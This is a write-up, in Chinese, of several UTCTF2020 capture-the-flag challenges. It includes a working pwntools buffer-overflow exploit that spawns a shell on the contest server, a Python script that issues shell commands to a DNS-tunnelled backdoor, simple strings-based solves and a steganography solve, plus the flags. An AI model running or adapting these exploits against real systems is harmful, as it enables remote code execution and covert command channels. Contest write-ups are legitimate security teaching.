

# UTCTF2020 write-up

bof
-------
>nc binary.utctf.live 9002  
file: pwnable

pwnable: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=017761d89d9e70fa132c5dca9e2de20a44672698, not stripped  
反編譯發現main()中的gets()導致buffer overflow  
```c
undefinded8 main(){
    char *s;
    
    puts("I really like strings! Please give me a good one!");
    gets(&s);
    puts("Thanks for the string");
    return 1;
}
```
另有一個get_flag()可以開sh  
```c
void get_flag(uint32_t arg1){
    uint32_t var_14h;
    char *var_10h;
    int64_t var_8h;
    
    if(arg1 == "deadbeef"){
        var_10h = "/bin/sh";
        execve("/bin/sh", &var_10h, 0, &var_10h);
    }
    return;
}
```
所以可以蓋掉ret addr過來開sh，不過要注意參數要帶"deadbeef"  
因為是x86-64，要有可以改rdi的gadget  
也可以直接蓋ret addr到var_10h = "/bin/sh"跳過if判斷  
不過會因為overflow的關係導致rbp在main末期執行leave時爛掉  
  
執行var_10h = "/bin/sh"會segment fault  
可以把stack裡的saved rbp蓋成可控的位址，比如.bss  
```py
from pwn import *

r = remote('binary.utctf.live', 9002)

ctrl_buf = ELF('pwnable').bss() + 0x100
target = 0x4005fe
payload = 'A' * 112 + p64(ctrl_buf) + p64(target)

r.recv()
r.sendline(payload)
r.recv()
r.interactive()
r.close()
```
utflag{thanks_for_the_string_!!!!!!}

do not stop
-----

>One of my servers was compromised, but I can't figure it out. See if you can solve it for me!  
file: capture.pcap

在DNS query/response中發現有base64 encoding的字串  
```
04:17:42.207337 IP 192.168.232.129.36814 > 68.185.188.35.bc.googleusercontent.com.domain: 5660+ TXT? d2hvYW1pCg==. (30)
04:17:42.246268 IP 68.185.188.35.bc.googleusercontent.com.domain > 192.168.232.129.36814: 5660 1/0/0 TXT "cm9vdA==" (51)
04:17:49.764026 IP 192.168.232.129.60736 > 68.185.188.35.bc.googleusercontent.com.domain: 19442+ TXT? bHMgLWxhCg==. (30)
04:17:49.802382 IP 68.185.188.35.bc.googleusercontent.com.domain > 192.168.232.129.60736: 19442 1/0/0 TXT "dG90YWwgMjUxMgpkcnd4ci14ci14ICAgIDEgcm9vdCAgICAgcm9vdCAgICAgICAgICA0MDk2IE1hciAgNiAwNDo0NCAuCmRyd3hyLXhyLXggICAgMSByb290ICAgICByb290ICAgICAgICAgIDQwOTYgTWFyICA2IDA4OjA5IC4uCi1ydy1yLS1yLS0gICAgMSBy" (751)
```
decode發現是後門  
replay卻沒反應，不過可以注意到更前面的DNS封包  
```
04:17:39.157490 IP 192.168.232.129.39684 > 21.16.225.35.bc.googleusercontent.com.domain: 42137+ A? dns.google.com. (32)
04:17:39.197013 IP 21.16.225.35.bc.googleusercontent.com.domain > 192.168.232.129.39684: 42137 1/0/0 A 35.188.185.68 (48)
04:17:39.197481 IP 192.168.232.129.43286 > 21.16.225.35.bc.googleusercontent.com.domain: 25254+ AAAA? dns.google.com. (32)
04:17:39.234063 IP 21.16.225.35.bc.googleusercontent.com.domain > 192.168.232.129.43286: 25254 1/0/0 A 35.188.185.68 (48)
```
推測可能換IP，可以重新query一次發現確實有換過  
送出的command要記得加Cg==，RR也要使用TXT  
```py
#!/usr/bin/env python

import dns.resolver
import base64

full_ls_result = 'dG90YWwgMjUxMgpkcnd4ci14ci14ICAgIDEgcm9vdCAgICAgcm9vdCAgICAgICAgICA0MDk2IE1hciAgNiAwNDo0NCAuCmRyd3hyLXhyLXggICAgMSByb290ICAgICByb290ICAgICAgICAgIDQwOTYgTWFyICA2IDA4OjA5IC4uCi1ydy1yLS1yLS0gICAgMSByb290ICAgICByb290ICAgICAgICAgMTIyODggTWFyICA2IDA0OjQyIC5NYWtlZmlsZS5zd3AKLXJ3LXItLXItLSAgICAxIHJvb3QgICAgIHJvb3QgICAgICAgICAgIDEwNCBNYXIgIDUgMjM6NTAgRG9ja2VyZmlsZQotcnctci0tci0tICAgIDEgcm9vdCAgICAgcm9vdCAgICAgICAgICAgMTE5IE1hciAgNSAyMzo1MCBNYWtlZmlsZQotcnctci0tci0tICAgIDEgcm9vdCAgICAgcm9vdCAgICAgICAgICAgIDI4IE1hciAgNSAyMzo1MCBmbGFnLnR4dAotcnd4ci14ci14ICAgIDEgcm9vdCAgICAgcm9vdCAgICAgICAyNTMzODIzIE1hciAgNiAwNDo0NCBzZXJ2ZXIKLXJ3LXItLXItLSAgICAxIHJvb3QgICAgIHJvb3QgICAgICAgICAgMTY5MyBNYXIgIDUgMjM6NTAgc2VydmVyLmdv'

r = dns.resolver.Resolver(configure=False)
r.nameservers = ['35.225.16.21']

q = r.query('dns.google.com', 'A')
for i in q.response.answer:
    for j in i.items:
        r.nameservers = [j.address]

print(base64.b64decode(full_ls_result))

cmd = 'cat flag.txt'
q = r.query(base64.b64encode(cmd) + 'Cg==', 'TXT')
for i in q.response.answer:
    print(i.items, base64.b64decode(str(i.items[0])))

```
utflag{\$al1y_s3L1S_sE4_dN\$}

[basics] reverse engineering
-----
>I know there's a string in this binary somewhere.... Now where did I leave it?  
file: calc

```sh
strings calc | grep utflag
```
utflag{str1ngs_1s_y0ur_fr13nd}

[basics] forensics
-----
>My friend said they hid a flag in this picture, but it's broken! Now that I think about it, I don't even know if it really is a picture...  
file: secret.jpeg

```sh
strings secret.jpeg | grep utflag
```
utflag{fil3_ext3nsi0ns_4r3nt_r34l}

Zero
-----
>This file seems to be too large given how much text it contains, but I can find zero evidence of the flag. Maybe you'll have better luck than me?  
file: zero.text

先確定有哪些unicode出現：  
<U+200B><U+200C><U+200D><U+202C><U+FEFF>  
然後當個工具仔：  
https://330k.github.io/misc_tools/unicode_steganography.html

utflag{whyNOT@sc11_4927aajbqk14}

